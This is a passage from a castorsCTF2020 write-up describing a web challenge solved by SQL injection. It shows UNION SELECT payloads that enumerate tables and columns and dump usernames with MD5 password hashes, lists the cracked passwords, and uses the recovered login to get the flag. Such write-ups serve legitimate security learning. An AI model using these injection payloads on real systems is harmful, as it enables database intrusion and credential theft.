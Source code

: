 ```html
    <td style="text-align:center">Cars,Users</td>
    <td style="text-align:center">3</td>
    <td style="text-align:center">cars</td>
    <td style="text-align:center">4</td>
```

So that `Users` table looks suspicious, that's not related to cars at all. We can further check all the columns as well, like so:

`CHAR(39) AND 1=2 UNION SELECT version(),group_concat(column_name),database(),3,4 from information_schema.columns where table_schema=database() -- `

which gives us:

```html
Id,Type,Model,Make,Year,Username,Password
```

So, seems like we should be taking `Username` and `Password` from the `Users` table.

`CHAR(39) AND 1=2 UNION SELECT version(),concat(Username,':',Password),database(),3,4 from Users`

Gives us back (after formatting):

```
admin@cybercastors.com:cf9ee5bcb36b4936dd7064ee9b2f139e
admin@powerpuffgirls.com:fe87c92e83ff6523d677b7fd36c3252d
jeff@homeaddress.com:d1833805515fc34b46c2b9de553f599d
moreusers@leakingdata.com:77004ea213d5fc71acf74a8c9c6795fb
```

The hashes are simple passwords easily cracked with an online Rainbow table, and they are:

```
naruto
powerpuff
pancakes
fun
```

So, nothing related to the flag. Discord was mentioning something about "if only there was a secret portal".

Running `dirb` (or whatever your favorite directory finder is), we end up finding the following web page:

* http://web1.cybercastors.com:14435/dealer

Going to this, we see it asks for email/password credentials. Trying the `admin@cybercastors.com` email and `naruto` password from above, we get the flag:

&nbsp;
{{< image src="/img/castorsCTF2020/lottery/flag.png" alt="flag.png" position="center" style="border-radius: 8px;" >}}
&nbsp;

Flag is `castorCTF{daT4B_3n4m_1s_fuN_N_p0w3rfu7}`.

&nbsp;
&nbsp;
